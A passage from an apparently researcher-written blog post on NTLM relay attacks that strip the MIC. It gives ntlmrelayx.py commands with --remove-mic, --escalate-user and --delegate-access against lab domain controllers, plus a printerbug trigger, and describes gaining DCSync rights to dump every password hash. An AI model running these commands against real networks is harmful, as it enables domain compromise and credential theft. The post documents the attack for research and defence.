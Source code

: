 Which we catch with ntlmrelayx running with the `--remove-mic` flag:

```
ntlmrelayx.py --remove-mic --escalate-user ntu -t ldap://s2016dc.testsegment.local -smb2support
```

![Relaying Exchange](/assets/img/micdrop/relay_exchange.png)

This grants our user DCSync privileges, which we can use to dump all password hashes:

![dumping hashes](/assets/img/privexchange/secretsdump-hashes.png){: .align-center}

## Attack 2 - Kerberos delegation
The second attack follows largely the process described in my [previous blog](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/).

We start ntlmrelayx.py with the `--remove-mic` and `--delegate-access` flags and relay this to LDAP over TLS (LDAPS) to be able to create a new machine account (we could also relay to plain LDAP, but then we'd have to escalate an existing machine account):

```
ntlmrelayx.py -t ldaps://rlt-dc.relaytest.local --remove-mic --delegate-access -smb2support
```
And run the printerbug.py script again against a **secondary domain controller** (I'm aware it's called `rlt-app-server` below, but this is a server I promoted to DC in my lab):

![DC printerbug](/assets/img/micdrop/printerbug.png)
